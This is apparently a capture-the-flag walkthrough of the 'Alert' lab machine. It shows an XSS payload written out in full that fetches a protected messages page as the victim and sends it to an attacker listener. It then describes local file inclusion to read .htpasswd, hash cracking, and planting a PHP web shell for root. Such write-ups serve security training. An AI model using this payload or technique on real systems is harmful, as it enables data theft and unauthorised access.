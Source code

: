 ```yaml
---
layout: post
title: "Alert 14eb9525529180c9b200f28db6068308"
date:   2025-07-15 12:05:57 -0400
categories: writeups
---
```


# Alert

# 1. Enumeration

Start enumerating ports, there is a web application running, and a ssh service we may need to find some creds

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image.png' | relative_url }})

We can perform some actions like, view a .md file, exploring the web application there is a message suggesting report any trouble through contact us 

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_1.png' | relative_url }})

# 2. User flag

Let’s keep enumerating the machine listing directories, there is another one called messages, if we try to send a request to it it doesn’t show anything it may be allowed to show info only to admin

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_2.png' | relative_url }})

Messages is also present in here

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_3.png' | relative_url }})

We tried to upload js code to perform a xss attack, it seems to be vulnerable to it but there are no cookies to steal and we are not able to do anything else different from share the .md file, so we could attempt to fetch files as whoever is behind contact us and send that information to a listener we will set up

```jsx
<script>
fetch("http://alert.htb/index.php?page=messages")
	.then(response => response.text())
	.then(data => {
	fetch("http:/0.0.0.0:0000/?data=" + encodeURIComponent(data));
	})
	.catch(error => console.error("Error", error));
</script>
```

Send the payload but before clicking it in share, intercept the request, copy and paste the link and send it to contact us interface

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_4.png' | relative_url }})

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_5.png' | relative_url }})

It will be sent successfully

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_6.png' | relative_url }})

And we will receive the info in the netcat listener

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_7.png' | relative_url }})

Decode it using cyberchef, there is a .txt file on it and it is disclosing the way to access files with messages php script, there may be a LFI 

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_8.png' | relative_url }})

There is a Apache2 server running

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_9.png' | relative_url }})

Check default configuration files

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_10.png' | relative_url }})

It give us the whole configurations and the file where a password is stored

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_11.png' | relative_url }})

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_12.png' | relative_url }})

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_13.png' | relative_url }})

Check the content on .htpasswd

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_14.png' | relative_url }})

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_15.png' | relative_url }})

Albert hash found

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_16.png' | relative_url }})

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_17.png' | relative_url }})

Log in as Albert and  get user flag

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_18.png' | relative_url }})

# 3.Priv esc

To escalate privileges we found in `/opt/website-monitor` files that seems to run a web application, root is the owner but management group can performs some tasks in config files

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_19.png' | relative_url }})

Effectively we are part of management group

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_20.png' | relative_url }})

And there is a local service running on port 8080

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_21.png' | relative_url }})

We could forward that port to get more information of this, but i think that we have the necessary to elevate our privileges, furthermore we have the base path where files are requested

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_22.png' | relative_url }})

1. Create a new .php file opening the door to get requests executing commands
2. Make a request executing whatever command we want through the file we’ve created previously

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_23.png' | relative_url }})

Machine Pwned!!!